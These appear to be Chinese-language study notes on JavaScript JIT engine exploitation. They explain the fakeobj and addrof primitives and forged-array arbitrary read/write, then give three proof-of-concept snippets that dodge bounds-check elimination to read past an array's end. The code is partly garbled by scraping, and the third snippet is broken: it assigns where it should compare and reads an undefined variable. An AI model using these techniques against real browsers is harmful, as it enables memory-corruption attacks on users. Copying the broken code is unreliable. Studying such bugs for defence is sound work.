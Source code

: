 Fakeobj　其实就是存在一个obj的数组，将数组中的元素设置为你想伪造的类型的map值，

之后返回伪造的对象，虽然说伪造的对象与float值实现相等的，但是却是不同的意义

addrof　应用了数组的索引功能

任意地址读写应用的是数组的索引功能，伪造一个数组

根据一个特殊的array进行构造

几种跳过loadElement的方法

```
function opt()`{`
    let arr = [0, 1, 2, 3];
    let idx = 4;
     idx &amp;= 0xfff;
    return arr[idx];
`}`

for(var i=0; i &lt; 0x10000; i++)
    opt()

var x = opt()
console.log(x)
算数运算
```

```
function opt()`{`
    let arr = [0, 1, 2, 3];
    let o = `{`x: 4`}`;
     return arr[o.x];
`}`

for(var i=0; i &lt; 0x10000; i++)
    opt()

var x = opt()
console.log(x)
```

```
function opt(x)`{`
    let arr = [0, 1, 2, 3];
    let idx = (x="foo")?4:2;
    return a[idx];
`}`

for(var i=0; i &lt; 0x10000; i++)
    opt()

var x = opt("foo")
console.log(x)
无效的phi节点
```
